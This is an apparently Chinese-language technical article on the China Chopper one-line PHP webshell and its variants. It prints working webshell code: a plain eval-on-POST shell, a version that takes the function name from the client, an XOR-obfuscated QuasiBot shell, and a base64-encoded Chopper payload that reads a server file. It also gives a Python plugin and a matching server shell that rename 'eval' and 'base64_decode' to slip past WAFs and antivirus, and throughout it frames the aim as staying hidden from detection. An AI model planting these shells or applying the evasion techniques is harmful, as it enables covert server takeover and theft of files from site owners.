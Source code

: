 # 经典菜刀一句话小马及其变形的设计思路

经典的菜刀一句话类似于：
```PHP
@eval($_POST['pass'])
```

这里的eval便是我们要执行的动作。而真正要执行的代码以字符串形式存在的$_POST['pass']。

这类小马总是接受来自客户端的发来的Request，然后对其中特定的邪恶字符串动态求值，并将执行结果以特定的格式Response回客户端。一句话小马的核心特征总是可以归结为这样的形式：

```PHP
$act（$evilStr）
```

其中，$act可能代表eval、system，或如带e标志的preg_replace之类可执行字符串的动作，$evilStr代表一段以字符串形式存在的邪恶代码。

## 动作

在服务端的木马中直接写eval之类的敏感词很可能会导致被查杀。有两种基本思路可以绕过这个问题：

* 在服务端的小马里对动作名进行混淆
* 从客户端向小马传递动作名，从而避免在服务端的小马里看到eval之类的代码

### 混淆动作名

混淆动作名的方法很多，如字符串拼接、base64编码等等。关键是隐藏自己。

### 从客户端传递动作名：

木马类似于：

```PHP
$act=$_GET['act'];
$evilStr=$_POST['evilStr'];
$act($evilStr);
```

则客户端POST恶意数据到victim.php?act=eval即可完成。

### 结合两者：

比如QuasiBot的服务端木马：

```PHP
if($_GET['_']) {
    print "<!--".$_="{:|";
    $_=($_^"<").($_^">").($_^"/"); # 结果为$_="GET"
    ${'_'.$_}["_"](${'_'.$_}["__"]);    #结果为$_GET['_']($_GET['__'])
    print "{:|".md5("666".date("h:d"))."{:|".PHP_OS."{:|-->";
}else{
    //...
}
```

很显然，这段代码实际上是利用异或^运算符做了代码混淆，本质上还是通过客户端传递动作名来达到隐蔽自己的效果。



## 邪恶代码的字符串

这部分便是我们实际要运行的代码。由于WAF的缘故，经常需要对之进行编码加密，常用的便是利用base64_decode()。
解密工作可以放到服务端的小马中完成，也可以放在邪恶字符串中——每当邪恶字符串被求值的时候，就会触发自解密。
比如菜刀的某一段邪恶功能字符串经过整理后可能类似于：
```C#
//ee=
Response.Write("->|");
var err:Exception;
try{
    eval(
        System.Text.Encoding.GetEncoding(65001).GetString(
            System.Convert.FromBase64String("dmFyIFA9U3lzdGVtLlRleHQuRW5jb2RpbmcuR2V0RW5jb2RpbmcoNjUwMDEpLkdldFN0cmluZyhTeXN0ZW0uQ29udmVydC5Gcm9tQmFzZTY0U3RyaW5nKFJlcXVlc3QuSXRlbVsiejEiXSkpO3ZhciBtPW5ldyBTeXN0ZW0uSU8uU3RyZWFtUmVhZGVyKFAsRW5jb2RpbmcuRGVmYXVsdCk7UmVzcG9uc2UuV3JpdGUobS5SZWFkVG9FbmQoKSk7bS5DbG9zZSgpOw%3D%3D")
        ),
        "unsafe"
    );
}catch(err){
    Response.Write("ERROR:// "%2Berr.message);
}
Response.Write("|<-");
Response.End();
```
配合着发送的还有这样一个QueryString

```C#
z1=QzpcXERvY3VtZW50cyBhbmQgU2V0dGluZ3NcXEFkbWluaXN0cmF0b3JcXOahjOmdolxcMjIyLmNzdg%3D%3D
```

其中：

* ee代表的邪恶字符串经过urldecode、base64_decode之后，得到明文是:

```C#
var P=System.Text.Encoding.GetEncoding(65001).GetString(
    System.Convert.FromBase64String(Request.Item["z1"])
);
var m=new System.IO.StreamReader(P,Encoding.Default);
Response.Write(m.ReadToEnd());
m.Close();
```

* z1实际上是一段经过base64编码的字符串，用作ee代表的那段邪恶代码的变量。


当然，这样直接把eval和base_decode这类敏感词写到邪恶字符串中，还是带有一定的通信特征，很容易被查杀，所以习科核心成员[半块西瓜皮](http://bbs.isilic.org/space-uid-5744.html)发布了[Python插件版的菜刀](http://bbs.isilic.org/forum.php?mod=viewthread&tid=6972&highlight=%E8%8F%9C%E5%88%80)，支持把eval、base_decode之类的敏感词替换为其他非敏感字符串，然后再在服务端的小马中予以还原。

Python的插件脚本为：
```Python
def makepostdata(headers,postdata):
    open('headers.txt','wb').write(headers)
    open('postdata.txt','wb').write(postdata)
    headers = headers.replace('X-Forwarded-For','asdasd')
    postdata = postdata.replace('eval','xxxx')
    postdata = postdata.replace('base64_decode','yyyy')
    return headers,postdata
```

这个插件作者给出的服务端的小马类似于：
```PHP
<?php
    function xxxx($str){return eval($str);}
    function yyyy($str){return base64_decode($str);}
    xxxx($_POST['pass']);
?>
```

当然，这种服务端小马尚未对敏感词做混淆，可以配合异或符进一步隐蔽。
